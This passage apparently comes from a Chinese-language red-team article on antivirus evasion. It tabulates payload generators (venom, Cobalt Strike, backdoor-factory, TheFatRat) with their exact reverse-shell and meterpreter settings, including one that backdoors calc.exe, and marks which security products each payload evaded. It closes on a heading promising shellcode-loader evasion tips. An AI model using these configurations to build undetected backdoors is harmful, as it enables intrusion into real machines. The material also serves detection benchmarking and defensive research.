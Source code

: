 | venom           | -           | -                | -    | -    | 2     17     192.168.43.128     51046     3     windows/meterpreter/reverse_http     51046 |
| venom           | -           | -                | -    | -    | 2     18     The full path of your agent.exe     192.168.43.128     51047     windows/shell/reverse_tcp |
| venom           | ×           | ×                | ×    | ×    | 2     18     The full path of your csc-v4.0.30319x86.exe     192.168.43.128     51048     windows/meterpreter/reverse_tcp |
| venom           | -           | -                | -    | √    | 2     19     192.168.43.128     51049     windows/meterpreter/reverse_tcp |
| venom           | -           | -                | -    | √    | 2     19     192.168.43.128     51050     windows/meterpreter/reverse_winhttps |
| venom           | -           | -                | -    | -    | venom-20                                                     |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_http/reverse_http;Port  51052"     Attacks>Packages>Windows Execuation>Windows EXE |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_https/reverse_https;Port  51053"     Attacks>Packages>Windows Execuation>Windows EXE |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_http/reverse_http;Port  51054"     Attacks>Packages>Windows Execuation(stageless)>Windows EXE |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_https/reverse_https;Port  51055"     Attacks>Packages>Windows Execuation(stageless)>Windows EXE |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_http/reverse_http;Port  51056"     Attacks>Packages>Windows Execuation>Windows Service EXE |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_https/reverse_https;Port  51057"     Attacks>Packages>Windows Execuation>Windows Service EXE |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_http/reverse_http;Port  51058"     Attacks>Packages>Windows Execuation(stageless)>Windows Service EXE |
| cobaltstrike    | √           | √                | √    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_https/reverse_https;Port  51059"     Attacks>Packages>Windows Execuation(stageless)>Windows Service EXE |
| cobaltstrike    | ×           | ×                | ×    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_http/reverse_http;Port  51060"     Attacks>Packages>Windows Execuation(stageless)>powershell |
| cobaltstrike    | ×           | ×                | ×    | √    | ColbaltStrike>Listeners>Add>"windows/beacon_https/reverse_https;Port  51061"     Attacks>Packages>Windows Execuation(stageless)>powershell |
| backdoorfactory | √           | √                | ×    | ×    | ./backdoor.py -f  workspace/calc.exe -s cave_miner_inline -J -H 192.168.43.128 -P 51062 -o 51062.exe     9     10     11 |
| theFatRat       | ×           | ×                | ×    | ×    | proxychains ./fatrat               2     [ 1 ] - Powerstager 0.2.5 by z0noxz (powershell) (NEW)     192.168.43.128     51063     51063     2     access.ico |
| theFatRat       | √           | ×                | ×    | ×    | proxychains ./fatrat               2     [ 2 ] - slow but useful     192.168.43.128     51064     51064     2 |
| theFatRat       | ×           | ×                | √    | √    | proxychains ./fatrat          6     1     192.168.43.128     51065     51065     2 windows/shell/reverse_tcp |
| theFatRat       | ×           | ×                | √    | √    | proxychains ./fatrat          6     1     192.168.43.128     51066     51066     3 windows/meterpreter/reverse_tcp |
| theFatRat       | ×           | ×                | ×    | √    | proxychains ./fatrat          6     2     192.168.43.128     51067     51067     2 windows/shell/reverse_tcp |
| theFatRat       | ×           | ×                | ×    | √    | proxychains ./fatrat          6     2     192.168.43.128     51068     51068     3 windows/meterpreter/reverse_tcp |
| theFatRat       | ×           | ×                | ×    | √    | proxychains ./fatrat          6     3     192.168.43.128     51069     51069     6 windows/meterpreter/reverse_https |
| theFatRat       | ×           | ×                | ×    | √    | proxychains ./fatrat          6     4     192.168.43.128     51070     51070     3 windows/meterpreter/reverse_tcp |
| theFatRat       | √           | √                | √    | √    | proxychains ./fatrat          6     5     192.168.43.128     51071     51071     2 windows/shell/reverse_tcp |
| theFatRat       | ×           | ×                | ×    | ×    | proxychains ./fatrat          6     7     192.168.43.128     51072     51072     #2 windows/shell/reverse_tcp |



## 0x02 定制与开发

下面给出一些在实战shellcode加载类免杀中用到的一些免杀tips。这里不会给出具体的代码，而是给出一些模块的实现思想，将这些模块进行简单组合就能达到不错的免杀效果。而这些模块的开发与实现成本非常低。
